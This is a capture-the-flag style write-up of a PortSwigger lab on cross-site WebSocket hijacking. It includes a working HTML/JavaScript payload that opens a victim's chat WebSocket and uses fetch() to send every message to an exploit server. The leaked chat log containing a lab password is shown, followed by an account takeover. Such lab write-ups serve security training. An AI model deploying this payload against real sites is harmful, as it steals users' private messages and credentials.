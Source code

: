 # Cross-site WebSocket hijacking | Dec 19, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab), you'll learn: Cross-site WebSocket hijacking! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a [cross-site WebSocket hijacking attack](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) to exfiltrate the victim's chat history, then use this gain access to their account.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020342.png)

**Live chat:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020516.png)

In the previous labs, we found that the live chat is vulnerable to XSS(Cross-Site Scripting).

**To intercept WebSocket traffics, we can use Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020713.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020720.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020726.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219020741.png)

**Refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219021116.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219021609.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219021146.png)

In the above requests, we can see that **it's vulnerable to CSRF(Cross-Site Request Forgery), as the GET request to `/chat` is only using a `session` cookie, no CSRF token or unpredictable values in request parameters.**

If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site!

**To do so, I'll craft a HTML form that automatically send a WebSocket request to `/chat` with message `READY`, and exfiltrate the victim's chat history:**
```html
<html>
    <head>
        <title>Cross-site WebSocket hijacking</title>
    </head>
    <body>
        <script>
	        // Create a new WebSocket object that points to /chat endpoint
            var webSocket = new WebSocket('wss://0a3c001503003fdec15a8fb1002000a3.web-security-academy.net/chat');
            webSocket.onopen = function() {
	            // Send "READY" message to /chat to render the chat history
                webSocket.send("READY");
            };
            webSocket.onmessage = function(event) {
	            // Send a GET request with the chat history to exploit server 
                fetch('https://exploit-0a4f00e603833f76c1a48e8b017f0066.exploit-server.net/?'+event.data, {method: 'GET'});
            };
        </script>
    </body>
</html>
```

**Next, we can copy and paste that to the exploit server:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219024639.png)

**Then send the CSRF payload to the victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219024717.png)

**Finally, we can check the access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219024731.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219024756.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219024939.png)

```
{"user":"You","content":"I forgot my password"}
{"user":"Hal Pline","content":"No problem carlos, it&apos;s 3tgu7yhedoahtz94rxch"}
{"user":"Hal Pline","content":"Hello, how can I help?"}
{"user":"You","content":"Thanks, I hope this doesn&apos;t come back to bite me!"}
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

**Found `carlos` password! `3tgu7yhedoahtz94rxch`.**

**Let's login as carlos!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219025024.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/WebSockets/WS-3/images/Pasted%20image%2020221219025032.png)

We're user `carlos`!

# What we've learned:

1. Cross-site WebSocket hijacking